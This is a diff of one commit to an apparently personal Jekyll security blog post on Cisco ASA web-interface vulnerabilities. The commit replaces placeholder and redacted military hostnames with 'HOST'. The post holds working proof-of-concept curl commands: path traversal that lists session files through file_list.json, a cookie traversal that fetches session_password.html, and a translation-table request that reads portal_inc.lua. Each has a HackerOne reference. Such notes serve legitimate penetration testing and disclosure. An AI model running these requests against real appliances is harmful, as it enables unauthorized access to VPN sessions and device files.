

Before and after one commit to JoseAbreu28/JoseAbreu28.github.io, a Jekyll site: the page built from _posts/2025-03-27-Cisco.md, in a window 1280 px wide and 1400 px high, scrolled down 1702 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 2025-03-27-Cisco.md

````diff
--- a/_posts/2025-03-27-Cisco.md
+++ b/_posts/2025-03-27-Cisco.md
@@ -13,13 +13,13 @@ A vulnerability in the web interface of the Cisco Adaptive Security Appliance (A
 
 Check if the endpoint is vulnerable
 ```
-curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
+curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
 ```
 
 POC
 ```
-curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
-curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
+curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
+curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
 
 ```
 
@@ -51,7 +51,7 @@ Check if the endpoint is vulnerable
 ```
 Exploit
 ```
-curl -H “Cookie: token=../+CSCOU+/csco_logo.gif” https://█████/+CSCOE+/session_password.html
+curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://HOST/+CSCOE+/session_password.html
 ```
 Reference:
 - [HackerOne](https://hackerone.com/reports/987090)
@@ -62,15 +62,15 @@ A vulnerability in the web services interface of Cisco Adaptive Security Applian
 
 POC
 ```
-https://URL/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
+/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
 /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
 ```
 OR
 ```
 curl -i -s -k -X $'GET' \
-    -H $'Host: █████.mil' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://█████.mil/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
+    -H $'Host: HOST' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://HOST/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
     -b $'webvpnlogin=1; webvpnLang=en' \
-    $'https://███.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
+    $'https://HOST/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
 ```
 Reference:
 - [HackerOne](https://hackerone.com/reports/943717)
````
